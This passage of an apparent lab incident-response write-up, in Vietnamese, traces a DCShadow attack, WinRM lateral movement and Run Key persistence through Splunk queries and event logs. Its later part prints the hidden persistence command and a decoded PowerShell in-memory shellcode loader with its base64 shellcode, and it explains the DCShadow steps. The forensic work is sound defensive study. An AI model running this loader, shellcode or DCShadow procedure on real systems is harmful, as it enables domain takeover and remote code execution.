


```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" earliest="08/06/2024:01:13:13" latest="08/06/2024:01:13:30" event.code=4672
```




Trong khoảng thời gian khi các process trên được thực thi, ghi nhận event 4648 (logon sử dụng 1 tài khoản khác với tài khoản hiện tại) trên office-pc với tài khoản hiện tại là sanderson (logon id 0xC4220) còn tài khoản khác được sử dụng là tcooper. Phiên logon này được thực hiện trên chính máy office-pc (target server = localhost). Ngay sau đó, mimikatz được khởi chạy dưới context của user tcooper trên office-pc. Attacker đã chuyển sang sử dụng tài khoản của user tcooper và bản thân tài khoản này có quyền quản trị nên được gán các privileges đặc biệt.

Hoạt động của process PowerShell (5784):







####  Mimikatz (PID 2376) khởi chạy từ powershell (5784)

```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" log.file.path="C:\\Logs_6782387492\\Microsoft-Windows-Sysmon%4Operational.evtx" earliest="08/06/2024:01:15:18" winlog.event_data.ProcessId=2376 OR winlog.event_data.SourceProcessId=2376 "DefragTool.exe"
| stats count by event.code
```




```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" log.file.path="C:\\Logs_6782387492\\Microsoft-Windows-Sysmon%4Operational.evtx" earliest="08/06/2024:01:15:18" winlog.event_data.ProcessId=2376 OR winlog.event_data.SourceProcessId=2376 "DefragTool.exe" event.code=5
| table _time winlog.event_data.Image
```



mimikatz.exe (2376) kết thúc lúc 2024-08-06 01:16:48.634, sau gần 2 phút thực thi




Attacker sử dụng bản mimikatz.exe gốc có chữ kí hợp lệ của tác giả Benjamin Delpy, chỉ thực hiện duy nhất việc thay tên nhằm đánh lừa user qua GUI.

Lọc các event trên Office-PC và DC01 trong thời gian mimikatz 2376 chạy:

```spl
index=shadowroast source="C:\\Logs\\office-pc.ndjson" earliest="08/06/2024:01:15:18" latest="08/06/2024:01:17:00"
| stats count by event.code, log.file.path
```


```spl
index=shadowroast source="C:\\Logs\\dc01.ndjson" earliest="08/06/2024:01:15:18" latest="08/06/2024:01:17:00"
| stats count by event.code, log.file.path
```


```spl
index=shadowroast source="C:\\Logs\\dc01.ndjson" earliest="08/06/2024:01:15:18" latest="08/06/2024:01:17:00"  "event.code"=4929
```


Event 4929 ghi nhận vào 2024-08-06 01:15:21 ghi lại khi directory partition nằm trên DC nguồn đang trong quá trình bị loại bỏ hoặc không được replicate từ DC được chỉ định tức là DC đích sẽ không pull dữ liệu từ nguồn đó nữa. Trong hoạt động thông thường: Sự kiện này có thể xuất hiện khi quản trị viên thực hiện các thay đổi kiến trúc AD, gỡ bỏ một phân vùng partition hoặc dọn dẹp các replica – bản sao partition trên mỗi DC Active Directory. Ở đây, trường Destination DRA chỉ Directory Replication Agent – thành phần thực hiện quản lý quá trình replication trên DC đích mà thực hiện pull dữ liệu cần đồng bộ từ DC nguồn, tuy nhiên, trường Source Address (chỉ DC nguồn bị xóa) lại là Office-PC thay vì là 1 DC khác hợp lệ trong cùng domain. Hành vi này phù hợp với nhận định rằng attacker đang thực hiện kĩ thuật tấn công DCShadow thông qua lệnh lsadump::dcshadow, event id 4929 là kết quả của việc DC01 hủy nguồn replication của DC giả sau khi push, tức nó đánh dấu thời điểm push vừa kết thúc.

Kĩ thuật tấn công DCShadow (MITRE T1207): DCShadow cho phép attacker tự đăng ký một máy bình thường thành DC giả rồi "đẩy" thay đổi vào AD qua cơ chế replication hợp lệ (MS-DRSR)

Quá trình tấn công:
1. Đăng ký DC giả: Kẻ tấn công thay đổi phân vùng cấu hình (Configuration Partition) và các Service Principal Name (SPN) để đăng ký một máy trạm/máy chủ bình thường thành một Domain Controller giả mạo. Cụ thể:
	- Tạo một object server cha và một object nTDSDSA con (đại diện cho một thực thể DC) trong phân vùng CN=Configuration,DC=domain,DC=local
	- Đăng ký các SPNs cần thiết để cung cấp khả năng xác thực cho DC thật để kết nối tới DC giải mạo, cần ít nhất 2 SPNs: lớp dịch vụ Directory Replication Service (DRS): có GUID cố định = E3514235–4B06–11D1-AB04–00C04FC2DCD2, lớp dịch vụ global catalog (GC): chứa chuỗi GC/\$hostname.\$domain/\$domain (đăng ký vào attribute servicePrincipalName của computer account)
Chú ý:  attacker dùng LDAP để tạo nTDSDSA object, thêm DRS SPN, và sửa userAccountControl trong Configuration/Domain partition.
2. Nhân bản dữ liệu (Replication Push): Sử dụng các API MS-DRSR/DRSUAPI của Windows (như DrsReplicaAdd thông qua công cụ như Mimikatz) để đẩy trực tiếp các sửa đổi dữ liệu (ví dụ: SIDHistory, userAccountControl, AdminSDHolder) sang các DC hợp pháp khác (thực chất vì quá trình AD replication là pull-based nên sau khi DC giả mạo kết nối tới service MS-DRSR trên DC thật và gọi API DrsReplicaAdd (tức thêm một nguồn replication mới trên DC thật), DC thật sẽ kéo/pull các thay đổi từ DC giả mạo về phía mình). Cụ thể:
	1. Attacker thiết lập các thay đổi muốn thực hiện trên máy trạm (ví dụ: thêm tài khoản của chúng vào nhóm Enterprise Admins). Sau đó, inject các thay đổi không mong muốn vào quá trình replication thông qua 2 cách: Chờ DC thật khởi tạo kết nối tới DC giả mạo và bắt đầu quá trình replication. Tuy nhiên, với cách này, mặc định bị delay 15 phút ; Ép DC thật thực hiện quá trình replication ngay lập tức bằng cách gọi hàm RPC IDL_DRSReplicaAdd trên DC thật 
	2. Khởi tạo một RPC server nội bộ đóng vai trò là DC, thực thi các hàm như là DRSAddEntry, GetNCChanges, và DRSReplicaAdd. Điều này là cần thiết để DC giả mạo đẩy dữ liệu độc hại tới DC thật trong quá trình replication
3. Dọn dẹp dấu vết: Sau khi hoàn tất đẩy dữ liệu, đối tượng DC giả và các cấu hình liên quan sẽ được gỡ bỏ nhanh chóng để xóa dấu vết.

Để thực hiện thành công, attacker sẽ cần khởi chạy 2 process mimikatz song song: 1 instance chạy dưới SYSTEM đóng vai trò như là RPC server, instance còn lại chạy dưới quyền Domain Admin gọi IDL_DRSReplicaAdd trên DC thật để nó kết nối tới RPC server giả rồi pull thay đổi. Do đó, trong incident này, nhiều khả năng mimikatz (5740) là RPC server, còn mimikatz (2376) thực hiện ép DC thật pull dữ liệu.

Tham khảo: https://www.youtube.com/watch?v=iGcei7yk2Pk&t=114s, https://netwrix.com/en/cybersecurity-glossary/cyber-security-attacks/dcshadow-attack/

Process mimikatz với PID = 5740
```spl
index=shadowroast source="C:\\Logs\\office-pc.ndjson" earliest="08/06/2024:01:14:46" latest="08/06/2024:01:16:00" winlog.event_data.ProcessId=5740 event.code=3
| table _time winlog.event_data.SourceIp winlog.event_data.SourcePort winlog.event_data.DestinationIp winlog.event_data.DestinationPort
| sort _time
```


Từ 2024-08-06 01:14:55.059 cho đến 2024-08-06 01:14:56.143, process này kết nối outbound tới port 389 (LDAP) trên DC01 (10.0.0.147) sau đó vào 2024-08-06 01:15:23.528, DC01 kết nối ngược lại (SourceIp = 10.0.0.147) tới Office-PC tới 1 port ngẫu nhiên (trên windows, dải port từ 49152 đến 65535 được sử dụng để cấp phát động cho các dịch vụ RPC thay vì cố định). LDAP ở đây được sử dụng để đăng ký 1 DC giả mạo.

Process mimikatz với PID = 2376


Vào 2024-08-06 01:15:23.528, process này kết nối tới port 135 trên DC hỏi dịch vụ RPC, cùng lúc ta thấy DC kết nối ngược lại như đã ghi nhận phía trên. Dịch vụ được request ở đây nhiều khả năng là MS-DRS RPC, process này gọi hàm DRSReplicaAdd, sau đó, DC01 kết nối ngược lại RPC server giả mạo trên Office-PC để pull dữ liệu. Các kết nối tới port 389 sau đó nhiều khả năng là process này gửi LDAP request xóa DC giả mạo vừa tạo.

```spl
index=shadowroast source="C:\\Logs\\dc01.ndjson"earliest="08/06/2024:01:15:00" latest="08/06/2024:01:16:00" "event.code"=4769
```

Đồng thời ngay trong khoảng thời gian, vào 2024-08-06 01:15:54.283 này ta cũng ghi nhận DC01 xin service ticket từ KDC trên chính nó để xác thực với Office-PC

#### Kết nối từ powershell 5784

```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" log.file.path="*Microsoft-Windows-Sysmon%4Operational.evtx" earliest="08/06/2024:01:13:13" winlog.event_data.ProcessId=5784 event.code=3
| table _time winlog.event_data.DestinationIp winlog.event_data.DestinationPort
```




Process powershell.exe (5784) thực hiện kết nối tới 10.0.0.161:5985 (FileServer) từ 2024-08-06 01:17:03.262 đến 2024-08-06 01:17:47.990, và tới 10.0.0.147:5985 (DC01) từ 2024-08-06 01:18:12.159 đến 2024-08-06 01:18:30.726. 

Trong đó, cổng TCP 5985 được sử dụng cho WinRM (Windows Remote Management), một dịch vụ cho phép quản trị từ xa thông qua giao thức HTTP. Trên máy đích, mỗi phiên WinRM chạy trong process wsmprovhost.exe, bất kì lệnh nào gửi sang từ máy nguồn sẽ có parent là process wsmprovhost.exe trên máy đích. Đây là dấu hiệu attacker lạm dụng WinRM để thực hiện lateral movement

### 1.5 Persistence trong Run Key được kích hoạt

```spl
index=shadowroast source="C:\\Logs\\Office-PC.ndjson" earliest="08/06/2024:03:52:00" event.code=4624 "sanderson"
| table _time winlog.event_data.ProcessName winlog.event_data.TargetLinkedLogonId winlog.event_data.TargetLogonId winlog.event_data.LogonType winlog.event_data.TargetUserName winlog.event_data.TargetUserSid
| sort _time
```



Vào khoảng 2024-08-06 03:52:54, sau khi user sanderson đăng nhập lại vào máy office-pc, câu lệnh độc hại trong Run Key được tự động thưc thi:



```text
2024-08-06 03:53:42.029  (4228) explorer.exe -> (1076) "C:\Windows\System32\cmd.exe" /b /c start /b /min powershell -nop -w hidden -c "sleep 0; iex([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String((Get-Item 'HKCU:Software\EdI86bhr').GetValue('OQqd5sjJ'))))"
2024-08-06 03:53:55.058     -> (6320) "C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe" -noni -nop -w hidden -c &([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String((('H4sIAFfqsGYCA7…..')-f'=','V')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))
```

Đoạn powershell trên decode base64 rồi decompress Gzip một đoạn base64 bị làm rối qua 2 tầng:
+ Nối nhiều chuỗi base64 lại với nhau
+ Thực hiện argument replacement: {0} với = và {1} với V


Giải mã payload bằng CyberChef:


Script sau giải mã:

```powershell
function bsCE {
        Param ($wwMc, $tL)
        $wVA = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

        return $wVA.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String])).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($wVA.GetMethod('GetModuleHandle')).Invoke($null, @($wwMc)))), $tL))
}

function pVk {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $l2O,
                [Parameter(Position = 1)] [Type] $nROW = [Void]
        )

        $gU = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $gU.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $l2O).SetImplementationFlags('Runtime, Managed')
        $gU.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $nROW, $l2O).SetImplementationFlags('Runtime, Managed')

        return $gU.CreateType()
}

[Byte[]]$eXscR = [System.Convert]::FromBase64String("/OiPAAAAYInlMdJki1Iwi1IMi1IUi3IoD7dKJjH/McCsPGF8Aiwgwc8NAcdJde9Si1IQV4tCPAHQi0B4hcB0TAHQi1ggAdOLSBhQhcl0PEkx/4s0iwHWMcDBzw2sAcc44HX0A334O30kdeBYi1gkAdNmiwxLi1gcAdOLBIsB0IlEJCRbW2FZWlH/4FhfWosS6YD///9daDMyAABod3MyX1RoTHcmB4no/9C4kAEAACnEVFBoKYBrAP/Vagpo3/cvSmgCAAG7ieZQUFBQQFBAUGjqD9/g/9WXahBWV2iZpXRh/9WFwHQM/04Idexo8LWiVv/VagBqBFZXaALZyF//1Ys2akBoABAAAFZqAGhYpFPl/9WTU2oAVlNXaALZyF//1QHDKcZ17sM=")
[Uint32]$hF = 0
